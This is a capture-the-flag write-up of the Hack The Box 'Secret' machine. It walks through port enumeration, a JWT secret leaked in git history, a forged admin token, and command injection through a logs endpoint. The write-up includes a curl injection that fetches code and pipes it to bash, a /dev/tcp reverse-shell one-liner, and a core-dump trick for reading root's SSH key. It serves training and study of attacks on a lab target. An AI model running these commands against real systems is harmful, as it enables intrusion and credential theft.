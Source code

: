 ```yaml
---
title: Secret Hunter Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```



## Enumeration

```java
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 3072 97af61441089b953f0803fd719b1e29c (RSA)
|_ 256 95ed658dcd082b55dd1751311e3e1812 (ECDSA)
|_ 256 337bc171d3330f924e835a1f5202935e (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: DUMB Docs
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open http Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploit

Accessing the page, we find the option to download the source code of the page. Inside this folder we can see a .git.
If we make a ``git log, we can see how we have access to several commits ``, but the one that interests us most is the second one, because it tells us about security reasons. We see that it reports the following:
```json
diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```

Analyzing, the other commits, we can see the following:
```json 
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
```

As you can see, this code is not well sanitized, because the file is passed directly without being filtered. In addition, we will also need a verifytoken to access the user "theadmin".

Digging further into the source code of the page, we find the /routes/auth.js file, specifically the following snippet:
```js
 // create jwt 
 const token = jwt.sign({ _id: user.id, name: user.name , email: user.email}, process.env.TOKEN_SECRET )
 res.header('auth-token', token).send(token);
```

Which is the one used to generate a JWT. 

This way, we already know what form the JWT has to have, so we are going to create one unsaod `jwt.io`.

Once we have it created, we are going to inject it in the web page with the help of curl:
```shell
curl -s -X GET -G "http://10.129.223.77:3000/api/logs" -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiIxMjM0NTY3ODkwIiwibmFtZSI6InRoZWFkbWluIiwiZW1haWwiOiJ0ZXN0QGh0Yi5odGIifQ.0 O1YWIRBS47RTjBcepm3nvFjwhDXVWFE7PewEurbr58" --data-urlencode "file=/etc/passwd;curl 10.10.14.113:8000 | bash" | jq
```

But before that, we have to create a file called index.html like this:
```shell
#!/bin/bash
bash -i >&/dev/tcp/<IP>/<PORT> 0>&1
```

and share it using a python server. In this way, we will receive the reserse shell.

## Root Exploit

Looking for SUIDS: `find / -perm -u=s -type f 2>/dev/null` we see that it reports many files. However, the one that catches our attention is /opt/count, so let's investigate it.
However, being a binary, we are going to read its code in the `code.c` file. We see that it makes use of the `prctl(PR_SET_DUMPABLE, 1)` command, so we can intuit that there is something related to the core dump. Therefore, let's try to exploit it. To do this, we will only have to send a signal of type `SIGSEGV` to the application, so that this time it reads from the directory that we provide it:
```shell
/opt/count
/root/.ssh/id_rsa
ctrl+z
kill -SIGSEGV ``ps -e | grep -w "count"|awk -F ' ' ' '{print$1}'` `.
fg
```

Once we have that done, let's read the dumpeted core:
```shell
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash_unpacked
strings /tmp/crash_unpacked/CoreDump
```

And now we could see the id_rsa of the root user

